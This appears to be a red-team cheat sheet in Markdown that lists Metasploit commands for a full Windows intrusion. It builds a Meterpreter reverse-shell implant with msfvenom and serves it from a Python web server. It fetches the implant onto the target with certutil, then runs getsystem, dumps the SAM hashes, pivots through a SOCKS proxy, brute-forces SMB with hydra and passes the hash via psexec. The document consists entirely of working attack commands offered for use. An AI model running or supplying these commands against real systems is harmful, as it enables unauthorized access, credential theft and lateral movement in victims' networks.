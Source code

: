# stable access
#### generate implant  
> msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=***[OWN IP]*** -f exe -o implant.exe  
#### start c2  
> msfconsole  
> use exploit/multi/handler  
> set payload windows/x64/meterpreter_reverse_tcp  
> set lport 443  
> set lhost ***[OWN IP]***  
> run -j  
#### start webserver for implant download
> python3 -m http.server 80
#### windows LOLBIN basic download of implant
> certutil -urlcache -f http://***[OWN IP]***/implant.exe implant.exe  

# actions on target
#### attempt to get SYSTEM privs
> getsystem  
#### dump SAM
> hashdump
#### set up pivoting
##### in meterpreter session
> arp  
> ipconfig  
> netstat  
> background  
##### from msfconsole
> use post/multi/manage/autoroute  
> set session ***[NUMBER]***  
> set subnet ***[SUBNET]***  
> set netmask ***[NETMASK]***  
> run  
> use auxiliary/server/socks_proxy  
> set srvport 9050  
> set version 4a  
> run  
##### from bash
> proxychains nmap -Pn -p445 ***[TARGET IP]*** --script=smb-enum*  
> proxychains hydra -p password1 -l administrator smb://***[TARGET IP]***  
#### pass-the-hash
##### in meterpreter session
> hashdump  
> *Administrator:500:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef*  
> background
##### from msfconsole
> use exploit/windows/smb/psexec  
> set rhosts ***[TARGET IP]***  
> set smbdomain .  
> set smbuser Administrator  
> set smbpass aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef  
> set payload windows/x64/meterpreter/bind_tcp  
> set lhost ***[OWN IP]***  
> run

